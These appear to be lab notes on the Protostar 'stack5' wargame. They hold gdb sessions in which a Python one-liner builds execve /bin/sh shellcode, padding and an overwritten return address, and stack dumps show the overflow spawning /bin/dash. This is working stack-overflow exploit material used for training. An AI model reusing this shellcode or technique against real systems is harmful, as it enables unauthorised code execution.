 ```
# program gets argument on runtime in gdb
user@protostar:/opt/protostar/bin$ python -c 'print("A"*64+"BB")' > /home/user/input
(gdb) run $(cat /home/user/input)

# objdump basic usage
objdump -d -M intel <binary>
```


```bash
(gdb) shell python -c "import struct; print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A' + 'B'*4*13  + struct.pack('I', 0xbffff770) " > /home/user/input
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /home/user/input

Breakpoint 1, 0x080483d4 in main (argc=1, argv=0xbffff864) at stack5/stack5.c:10
10      in stack5/stack5.c
(gdb) x/32x $esp
0xbffff760:     0xbffff770      0xb7ec6165      0xbffff778      0xb7eada75
0xbffff770:     0xb7fd7ff4      0x0804958c      0xbffff788      0x080482c4
0xbffff780:     0xb7ff1040      0x0804958c      0xbffff7b8      0x08048409
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x080483f0      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x080483fb      0xb7fd7ff4
0xbffff7b0:     0x080483f0      0x00000000      0xbffff838      0xb7eadc76
0xbffff7c0:     0x00000001      0xbffff864      0xbffff86c      0xb7fe1848
0xbffff7d0:     0xbffff820      0xffffffff      0xb7ffeff4      0x08048232
(gdb) c
Continuing.

Breakpoint 2, main (argc=0, argv=0xbffff864) at stack5/stack5.c:11
11      in stack5/stack5.c
(gdb) x/32x $esp
0xbffff760:     0xbffff770      0xb7ec6165      0xbffff778      0xb7eada75
0xbffff770:     0x6850c031      0x68732f2f      0x69622f68      0x50e3896e
0xbffff780:     0xb0e18953      0x4180cd0b      0x42424242      0x42424242
0xbffff790:     0x42424242      0x42424242      0x42424242      0x42424242
0xbffff7a0:     0x42424242      0x42424242      0x42424242      0x42424242
0xbffff7b0:     0x42424242      0x42424242      0x42424242      0xbffff770
0xbffff7c0:     0x00000000      0xbffff864      0xbffff86c      0xb7fe1848
0xbffff7d0:     0xbffff820      0xffffffff      0xb7ffeff4      0x08048232
(gdb) c
Continuing.
Executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 2: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 2: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 2: No symbol "main" in current context.

Program exited normally.
(gdb)
```
## Python Foo
